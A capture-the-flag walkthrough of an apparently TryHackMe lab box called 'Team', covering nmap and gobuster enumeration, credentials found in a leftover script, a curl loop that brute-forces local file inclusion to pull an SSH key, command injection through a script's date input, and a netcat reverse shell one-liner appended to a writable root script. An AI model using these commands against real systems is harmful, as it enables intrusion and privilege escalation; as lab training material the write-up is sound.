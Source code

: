 ## Team
---

#### Starting the machine 
![](/docs/images/team/team1.png)


#### Nmap Scan
```
nmap -sV -sC 10.10.182.107 -oA nmap/recon-team
```

![](/docs/images/team/team2.png)


#### Gobuster Scan
```
gobuster dir -u http://10.10.182.107 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/team  
```

![](/docs/images/team/team3.png)

Unfortunately there were no results on Gobuster


#### Looking at the hidden webpage

After some looking at the webpage, its just a default apache page. But the page source code indicates that there's something more.

![](/docs/images/team/team4.png)


After adding the team.thm link to the hosts file, a new page pops us at http://team.thm

![](/docs/images/team/team5.png)


#### Finding the next step

After some digging around and revealing nothing, it was time for another gobuster scan using the new webpage.

```gobuster dir -u http://team.thm -w /usr/share/wordlists/dirb/common.txt -o services/apache/gob-team-thm -x txt,php,html```

![](/docs/images/team/team6.png)

One thing that's revealed is the /robots.txt endpoint.

![](/docs/images/team/team7.png)

And there we go, a 'dale' is found. This is probably a username for something. 

Let's go back to the main directory to look around for more stuff.


#### /scripts endpoint

I forgot to originally check the /scripts folder for more content, so I'll do that now.

```gobuster dir -u http://team.thm/scripts -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o services/apache/gob-team-thm-scripts -x txt,php,html,js 
```


![](/docs/images/team/team8.png)

I can see that there's a script.txt file inside the /scripts endpoint.

Let's see if we can pull it out. 

![](/docs/images/team/team9.png)

So this is it, some credentials were redacted (not by me that's actually the box).

And there is an older version of the script, presumably. I'm just gonna go out on limb and try script.txt.old and script.old.

![](/docs/images/team/team10.png)

So script.old was the previous script.

![](/docs/images/team/team11.png)

And it gives some more information about the ftp user. 


#### FTP 

![](/docs/images/team/team12.png)

The only obvious file available was the 'New_site.txt' file, so that could be downloaded into the local system.


![](/docs/images/team/team13.png)

The file indicates that a ".dev" domain can be found on the host and to put your id_rsa in the relevant config file. So a developement domain usually indicated vulnerabilities and the id_rsa tells us that there is an potentiall ssh connection to be made. 


#### Admin Page - User Flag

After adding dev.team.thm to the hosts, it can be accessed.

![](/docs/images/team/team14.png)

From here, there is a single link connecting directly to the teamshare.


![](/docs/images/team/team15.png)

Just by looking at the URL, a potential directory traversal could be possible.

![](/docs/images/team/team16.png)

I'm pretty lazy but we got the user flag which is nice. 


#### Persistence

Next step is to escalate our privileges. The text file did mention the id_rsa keys, I'm going to be using a quick LFI script that I actually stole from another writeup. 

```sh
while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s\n' "$p"
  curl 'http://dev.team.thm/script.php?page='"$p"
done < /usr/share/wordlists/lfi-small.txt
```

![](/docs/images/team/team17.png)


This then give Dales OpenSSH key with the /etc/ssh/sshd_config path.

![](/docs/images/team/team18.png)

After configuring it, we now have SSH privileges.

![](/docs/images/team/team19.png)

So this looks like a standard SUID binary to gain priv esc.


#### Lateral Movement

So this script has an error inside of it that allows for command to be executed by the gyles user. When entering the date, the "bin/bash -i" string can be used to gain a weird shell with no output. Then this is just upgraded to a python shell using the legendary one-liner:

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


![](/docs/images/team/team22.png)

I did mess up in this one by trying to go back but I got the gyles shell. 

This is a result of the intentionally flawed scripting, the name parameter is written directly to the file. But the date, however, is inputted as a command in the "$error 2> /dev/null" line. This means that as long as the command is a valid one, it will run. Giving a shell as gyles using bash. 


#### Privilege Escalation

Of course I'm going to use LinPeas now that it's OSCP allowed. 

![](/docs/images/team/team23.png)

So here a file called /main_backup.sh can be accessed as an admin group.

![](/docs/images/team/team24.png)

Back to SUIDing then.


For this one, since it's actually writeable, a separate shell can be spawned by appending the a nc script. 

![](/docs/images/team/team27.png)

I'm gonna use this one since it hasn't failed me yet.


```
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![](/docs/images/team/team28.png)

We should have a nc shell now.

![](/docs/images/team/team29.png)

There we go, root shell obtained. 